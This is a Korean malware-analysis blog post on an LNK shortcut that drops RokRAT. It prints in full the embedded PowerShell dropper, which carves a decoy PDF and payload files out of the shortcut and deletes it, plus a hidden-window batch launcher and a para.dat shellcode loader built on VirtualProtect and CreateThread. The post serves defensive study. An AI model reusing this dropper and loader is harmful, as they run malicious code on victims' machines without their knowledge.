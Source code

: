 ```yaml
---
title: RokRAT 악성코드를 유포하는 LNK 파일 분석
author: heogi
date: 2024-05-06
categories:
  - Malware
tags:
  - Malware
  - RokRAT
  - LNK
comments: true
---
```

## 개요
RokRAT 악성코드를 유포하는 LNK 파일에 대한 분석 보고서이다.
https://asec.ahnlab.com/ko/64423/
https://asec.ahnlab.com/ko/51628/
## 분석
파일 속성을 살펴보면 아래와 같이 CMD 스크립트가 삽입되어있다.

![](../assets/img/2024-05-06-RokRAT%20악성코드를%20유포하는%20LNK%20파일%20분석-20240506002542442.png)

실행하면 아래와 같은 커맨드가 CMD에서 실행되게 된다.

```powershell
"C:\Windows\SysWOW64\cmd.exe" /k for /f 
"tokens=*" %%a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %%a 
"$dirPath = Get-Location; 
if($dirPath -Match 'System32' -or $dirPath -Match 'Program Files') {
	$dirPath = '%temp%\AppData\Local\Temp'
}; 
$lnkPath = Get-ChildItem -Path $dirPath -Recurse *.lnk | where-object {$_.length -eq 0x0382A8AD} | Select-Object -ExpandProperty FullName;
$lnkFile=New-Object System.IO.FileStream($lnkPath, [System.IO.FileMode]::Open, [System.IO.FileAccess]::Read);
$lnkFile.Seek(0x00001090, [System.IO.SeekOrigin]::Begin);
$pdfFile=New-Object byte[] 0x004B4DD3;
$lnkFile.Read($pdfFile, 0, 0x004B4DD3);
$pdfPath = $lnkPath.replace('.lnk','.pdf');
sc $pdfPath $pdfFile -Encoding Byte;& $pdfPath;
$lnkFile.Seek(0x004B5E63,[System.IO.SeekOrigin]::Begin);
$exeFile=New-Object byte[] 0x000D9402;
$lnkFile.Read($exeFile, 0, 0x000D9402);
$exePath=$env:public+'\'+'panic.dat';
sc $exePath $exeFile -Encoding Byte;
$lnkFile.Seek(0x0058F265,[System.IO.SeekOrigin]::Begin);
$stringByte = New-Object byte[] 0x000005A9;
$lnkFile.Read($stringByte, 0, 0x000005A9);
$batStrPath = $env:temp+'\'+'para.dat';
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);
$string | Out-File -FilePath $batStrPath -Encoding ascii;$lnkFile.Seek(0x0058F80E,[System.IO.SeekOrigin]::Begin);
$batByte = New-Object byte[] 0x00000135;
$lnkFile.Read($batByte, 0, 0x00000135);
$executePath = $env:temp+'\'+'price.bat';
Write-Host $executePath;
Write-Host $batStrPath;
$bastString = [System.Text.Encoding]::UTF8.GetString($batByte);$bastString | Out-File -FilePath $executePath -Encoding ascii;& $executePath;
$lnkFile.Close();
remove-item -path $lnkPath -force;"&& exit
```

해당 스크립트에서 실행한 악성 파일의 내용을 참조하여
normal pdf 파일 및 공격에 사용되는 `panic.dat`, `para.dat`, `price.bat` 파일들을 생성한다.

스크립트 실행 이후 실행 흐름을 보면 아래와 같다
* `price.bat` > `para.dat` > `panic.dat`

먼저 price.bat 파일의 내용을 살펴보면 아래와 같다.

* price.bat
```powershell
start /min C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden "$stringPath=$env:temp+'\'+'para.dat';
$stringByte = Get-Content -path $stringPath -encoding byte;
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);
$scriptBlock = [scriptblock]::Create($string);&$scriptBlock;"
```
* price.bat sysmon event
  ![](../assets/img/Pasted%20image%2020240513235200.png)

powershell을 통해 `$stringPath` 변수를 `para.dat` 파일 경로로 설정하고 내용을 읽어 스크립트를 실행한다.
* para.dat
```powershell
$exePath=$env:public+'\'+'panic.dat';
$exeFile = Get-Content -path $exePath -encoding byte;
[Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([Net.SecurityProtocolType], 3072);
$k1123 = [System.Text.Encoding]::UTF8.GetString(34) + 'kernel32.dll' + [System.Text.Encoding]::UTF8.GetString(34);
$a90234s = '[DllImport(' + $k1123 + ')]public static extern IntPtr GlobalAlloc(uint b,uint c);';
$b = Add-Type -MemberDefinition $a90234s  -Name 'AAA' -PassThru;
$d3s9sdf = '[DllImport(' + $k1123 + ')]public static extern bool VirtualProtect(IntPtr a,uint b,uint c,out IntPtr d);';
$a90234sb = Add-Type -MemberDefinition $d3s9sdf -Name 'AAB' -PassThru;
$b3s9s03sfse = '[DllImport(' + $k1123 + ')]public static extern IntPtr CreateThread(IntPtr a,uint b,IntPtr c,IntPtr d,uint e,IntPtr f);';
$cake3sd23 = Add-Type -MemberDefinition $b3s9s03sfse  -Name 'BBB' -PassThru;
$dtts9s03sd23 = '[DllImport(' + $k1123 + ')]public static extern IntPtr WaitForSingleObject(IntPtr a,uint b);';
$fried3sd23 = Add-Type -MemberDefinition $dtts9s03sd23 -Name 'DDD' -PassThru;
$byteCount = $exeFile.Length;
$buffer = $b::GlobalAlloc(0x0040, $byteCount + 0x100);
$old = 0;
$a90234sb::VirtualProtect($buffer, $byteCount + 0x100, 0x40, [ref]$old); 
for($i = 0;$i -lt $byteCount;$i++) { [System.Runtime.InteropServices.Marshal]::WriteByte($buffer, $i, $exeFile[$i]); };
$handle = $cake3sd23::CreateThread(0, 0, $buffer, 0, 0, 0);
$fried3sd23::WaitForSingleObject($handle, 500 * 1000);
```
* para.dat sysmon event
  ![](../assets/img/Pasted%20image%2020240514001906.png)
`para.dat`파일에서는 `panic.dat` 파일을 실행하는것으로 보인다.
스크립트에서 사용되는 Windows API를 살펴보면 `GlobalAlloc`,`CreateThread`,`VirtualProtect` 등이 있다.

각각 살펴보면
* GlobalAlloc()
	* 힙에서 지정된 바이트 수를 할당.
* CreateThread()
	* 호출 프로세스의 가상 주소 공간 내에서 실행할 스레드를 만든다.
* VirtualProtect()
	* 호출 프로세스의 가상 주소 공간에서 커밋된 페이지의 영역에 대한 보호를 변경.

이후 `panic.dat` 파일은 BYTE DATA로 되어있다.
sysmon 이벤트를 통해 행위를 살펴보면 `csc.exe` 를 통해 `%temp%` 폴더의 `4xe5d5qt\4xe5d5qt.cmdline` 파일을 실행한다.

해당 파일에서는 추가로 `cvtres.exe` 를 통해 `CSCFC0812CDEDAA4394B6A2222A84A8F3DA.TMP` 파일이 추가로 실행되는 것으로 보인다.
